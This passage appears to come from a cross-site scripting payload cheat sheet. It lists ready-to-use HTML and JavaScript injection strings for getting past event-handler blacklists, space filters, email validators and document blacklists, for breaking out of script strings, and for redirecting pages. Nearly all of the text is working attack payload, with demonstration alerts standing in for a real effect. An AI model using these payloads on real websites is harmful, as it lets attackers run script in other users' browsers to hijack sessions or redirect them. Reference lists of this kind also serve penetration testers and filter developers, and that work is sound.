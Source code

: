 ### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

### Bypass email filter

([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location = "http://google.com";
document.location = "http://google.com";
document.location.href = "http://google.com";
window.location.assign("http://google.com");
window["location"]["href"] = "http://google.com";
```
